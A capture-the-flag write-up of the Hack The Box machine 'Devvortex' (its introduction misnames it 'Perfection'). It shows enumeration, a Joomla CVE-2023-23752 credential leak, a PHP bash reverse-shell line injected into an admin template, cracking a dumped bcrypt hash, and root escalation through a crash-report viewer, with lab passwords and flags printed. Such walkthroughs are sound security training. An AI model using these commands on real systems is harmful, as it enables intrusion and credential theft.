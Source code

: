 # Devvortex

## Introduction

This writeup details the exploitation process of the "Perfection" box on Hack The Box. The challenge is categorized as easy difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.242
```

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.242 devvortex.htb" | sudo tee -a /etc/hosts
```

### Vhost Enumeration

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.devvortex.htb/ -fw 5080
```

<figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.242 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

### Directory Enumeration

```bash
dirsearch -u https://dev.devvortex.htb
```

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption><p><a href="http://dev.devvortex.htb/administrator/">http://dev.devvortex.htb/administrator/</a></p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (89).png" alt=""><figcaption><p>It time for Joomscan</p></figcaption></figure>

## Exploitation

### Joomscan Enumeration

```bash
joomscan -u http://dev.devvortex.htb/
```

<figure><img src="../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

Now, I got the Joomla version **Joomla 4.2.6.** Let find the vulnerability. ([https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752))

### Exploit-CVE-2023-23752

```bash
ruby exploit.rb http://dev.devvortex.htb
```

<figure><img src="../.gitbook/assets/image (91).png" alt=""><figcaption><p>lewis : P4ntherg0t1n5r3c0n##</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Go to System -> Template -> Administrator Templates

<figure><img src="../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

Choose one of PHP and input the reverse shell command.

```bash
system('bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1"');
```

<figure><img src="../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

<figure><img src="../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Import PUTTY

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Connect to MySQL database

```bash
mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##
```

<figure><img src="../.gitbook/assets/image (101).png" alt=""><figcaption><p>To see logan password</p></figcaption></figure>

```plsql
show tables;
```

<figure><img src="../.gitbook/assets/image (102).png" alt=""><figcaption><p>sd4fg_users</p></figcaption></figure>

```sql
SELECT * from sd4fg_users;
```

<figure><img src="../.gitbook/assets/image (103).png" alt=""><figcaption><p>$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12</p></figcaption></figure>

### Crack Password <a href="#hash-identifier-usage-example" id="hash-identifier-usage-example"></a>

```bash
echo "$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" >> hash.txt
```

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

* \-m 3200 (bcrypt $2\*$, Blowfish (Unix))
* /usr/share/wordlists/rockyou.txt (wordlist)

<figure><img src="../.gitbook/assets/image (104).png" alt=""><figcaption><p>tequieromucho</p></figcaption></figure>

### Connect with SSH

```bash
ssh logan@10.10.11.242
```

### User Flag

<figure><img src="../.gitbook/assets/image (106).png" alt=""><figcaption><p>119da9b66730742b0d1a5c24b6006df7</p></figcaption></figure>

## Privilege Escalation

### Check sudo -l

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Cause of the lab is broken, I cannot rewrite the writeup I will screenshot of the another writeup to put here.

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

```bash
What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

### Root Flag

```
root@devvortex:/home/logan# cat ~/root.txt
81df009efcd837a749211c494bfbb3e9
```

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
